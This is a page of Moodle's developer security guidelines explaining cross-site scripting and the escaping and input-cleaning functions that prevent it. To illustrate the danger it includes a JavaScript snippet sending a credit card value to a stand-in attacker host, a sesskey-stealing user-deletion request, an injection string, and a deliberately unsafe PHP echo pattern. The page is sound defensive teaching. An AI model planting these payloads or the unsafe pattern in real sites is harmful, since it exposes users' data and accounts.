 ```yaml
---
title: Cross-site scripting
sidebar_position: 4
tags:
  - Coding guidelines
  - Policies
  - Security
---
```


:::note

This page forms part of the [Moodle security guidelines](../security).

:::

## What is the danger?

Normally, web browsers prevent JavaScript from the server from affecting content that comes from another server. For example, suppose that on your Moodle page (`http://mymooodle.com`), you have an iframe displaying an advert from `http://makemerich.com`. Then, the JavaScript code in the advert cannot access anything on your page.

In Moodle, we actually let users type in HTML, then we display that HTML as part of our web site. Therefore, any JavaScript they manage to include will have full access to everything on the page.

Why is that a problem? Well, suppose Evil Hacker manages to get some code like

```javascript
document.write('<img width="1" height="1" ' +
     'src="http://evilhacker.com/savedata.php?creditcard=' +
     document.getElementById('creditcard').value + '" />');
```

on a page where the user types in their credit card number. Actually, that scenario is quite unlikely in Moodle, but there are more plausible scenarios that are possible.

Another problem is that XSS makes it much easier for Evil Hacker get round sesskey protection. For example:

```javascript
document.write('<img width="1" height="1" ' +
     'src="http://example.com/moodle/user/delete.php?id=123&confirm=1&sesskey=' +
     document.getElementById('sesskey').value + '" />');
```

Or even more sophisticated, the JavaScript to do that as a POST request, in a forum where an Administrator would go, would be very bad.

Note that, at least in Internet Explorer, JavaScript can be hidden in CSS style information, as well as in the HTML. Java applets can also be used to execute scripting, as well as the browser's JavaScript engine.

Note also that dangerous content may not only be input into Moodle directly by a user. It may also come, for example, from an external RSS feed.

## How Moodle avoids this problem

The simplest solution to XSS attacks is to **never let the user input rich content** like HTML or upload plugins like Java applets. Unfortunately, with Moodle we want to let our users communicate using rich content. For example, we want students to be able to express themselves by making forum posts in flashing orange text. We want teacher to be able to upload interesting applets for use by their students. Therefore, we have to compromise.

### Escaping output

Moodle divides content that has been input by the user into four categories:

1. **Plain text content**. For example, a student's response to a short answer question.
2. **Labels that are plain text**, except that they main contain multi-lang spans. For example, a course name or section heading.
3. **HTML (or wiki, markdown) content**, that might have been input by anyone. For example, the body of a forum post.
4. **HTML (or wiki, markdown) content**, that could only have been input by a **trusted user**, like a teacher. For example, the body of a web page resource.

Depending on the type of content, you need to use the appropriate function to output it. For example, if you have plain text content, you should use the `s()` function to output it. That will replace any `<` character with `&lt;`. If that is done, there is no way that the input can be interpreted as JavaScript.

### Escaping output 2 - JavaScript

The other place you need to be careful is when you are sending data to JavaScript. For example, if you generate JavaScript in your PHP code like

```php
echo '<script type="text/javascript">';
echo 'alert("' . $userinput . '");';
echo '</script>';
```

and Evil hacker can make `$userinput` equal to something like:

```php
); /* Do something evil. */ (
```

then they can get whatever code they choose to put in the `/* Do something evil. */` space to run within your web page.

The best solution is to not echo JavaScript like this. Instead, follow the [JavaScript guidelines](/docs/guides/javascript), and put your JavaScript in an external file, and communicate with it using `$PAGE->requires->data_for_js` or `$PAGE->requires->js_function_call`. Those two methods properly encode any PHP data to be passed to JavaScript using `json_encode`.

### Cleaning input

The other part of the protection is cleaning up data as it comes in. This is done using the `optional_param` or `required_param` functions. For example, if you say you are expecting an integer as input, by passing `PARAM_INT`, then you will only get an integer back. Once you know that a variable only contains an integer value, you can be sure it does not contain any malicious JavaScript.

However, for very complex input, like HTML, doing the cleaning is very tricky, and the code is likely to handle some complex situations badly. The algorithms will almost certainly be improved in the future, so for complex content, we store the raw input in the database, and only do the cleaning when it is output, using the latest algorithms.

## What you need to do in your code

- Get input values using `optional_param` or `required_param` with an appropriate `PARAM_*` type, to ensure that only data of the type you expect is accepted.
- Alternatively, use a [moodleforms](https://docs.moodle.org/dev/lib/formslib.php), with appropriate `->setType` calls in the form definition.
- Clean or escape content appropriately on output.
  - Use `s()` or `p()` to output plain text content (type 1 above).
  - Use `format_string` to output content with minimal HTML like multi-lang spans (type 2 above).
  - Use `format_text` to output all other content (types 3 and 4 above). How carefully it is cleaned (that is, the difference between type 3 and 4) depends on the `$options->noclean` argument to `format_text`.
- Any place where a use can input content that is output by `format_text`, `$options->noclean`, must be protected by a capability check, and the capability must be marked as `RISK_XSS`.
- When sending data to JavaScript code:
  - Use the `$PAGE->requires->data_for_js` or `$PAGE->requires->js_function_call` methods.
  - In Moodle 1.9 and earlier, escape the data with `addslashes_js` before printing it into the JavaScript code.

:::info

Follow the [Output functions](/docs/apis/subsystems/output#output-functions) link to get a best understanding of how dynamic data should be sent from Moodle to the browser.

:::

## What you need to do as an administrator

- Do not allow a user to have a capability with `RISK_XSS` unless you trust them.
  - The [Security overview](https://docs.moodle.org//en/Security_overview) report can help you check this.
- From Moodle 3.5 onwards, you can enable setting **Content cleaning everywhere**(`$CFG->forceclean`).

## See also

- [Security](../security)
- [Coding](/general/development/policies)
